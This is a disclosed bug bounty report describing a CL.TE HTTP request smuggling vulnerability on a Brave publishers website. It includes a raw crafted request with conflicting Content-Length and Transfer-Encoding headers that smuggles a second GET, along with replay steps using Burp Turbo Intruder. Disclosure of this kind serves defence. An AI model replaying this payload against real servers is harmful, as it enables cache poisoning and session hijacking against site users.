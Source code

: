 # HTTP Request Smuggling

## Report Details
- **Report ID**: 866382
- **URL**: https://hackerone.com/reports/866382
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-05-05T11:39:58.197Z
- **Disclosed**: 2020-06-04T00:52:31.476Z

## Reporter
- **Username**: dracomalfoy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
When malformed or abnormal HTTP requests are interpreted by one or more entities in the data flow between the user and the web server, such as a proxy or firewall, they can be interpreted inconsistently, allowing the attacker to "smuggle" a request to one device without the other device being aware of it. 

 publishers.basicattentiontoken.org is vulnerable to CL TE ( Front end server uses Content-Length , Back-end Server uses Transfer-encoding ) HTTP request smuggling attack.

## Products affected: 

Brave Website. : publishers.basicattentiontoken.org

## Steps To Reproduce:
1.  Run the burp suite turbo intruder on the following request

```
POST /publishers/registrations.json HTTP/1.1
Host: publishers.basicattentiontoken.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://publishers.basicattentiontoken.org/sign-up
X-Requested-With: XMLHttpRequest
Content-Type: application/json
Origin: https://publishers.basicattentiontoken.org
Content-Length: 136
DNT: 1
Connection: close
Transfer-encoding: chunked

35
{"terms_of_service":true,"email":"dhfs@kdjfksd.dfks"}
00

GET /assets/muli/Muli-Bold-ecdc1a24a0a56f42da0ee128d4c2e35235ef86acfbf98aab933aeb9cc5813bed.woff2 HTTP/1.1
Host: publishers.basicattentiontoken.org
foo: x


```

2. Script for tubro Intruder is attached. Word list can be any list containing any characters.
3. Observe 200 OK response for the /publishers/registrations.json post request which is supposed to give {"message":"Unverified request"}. Please refer the attached screenshot ( Smuggle Request1.png ) whih contain the expected response. 
4. This successfully confirms vulnerability.Please refer attached screenshot ( Final Response.png ). A seprate report is attached as well.


Any suggestions or improvement in reports are welcome as this is my first report.

## Impact

It is possible to smuggle the request and disrupt the user experience. Session Hijacking, Privilege Escalation  and cache poisoning can be the impact of this vulnerability as well.
As unauthenticated testing is performed the exact impact of the vulnerability cannot be predicted.

For more information about the vulnerability please refer :
 https://cwe.mitre.org/data/definitions/444.html ;
  https://capec.mitre.org/data/definitions/33.html

## Attachments
- Scripts.txt
- SmuggleRequest1..PNG
- FinalResponse..PNG
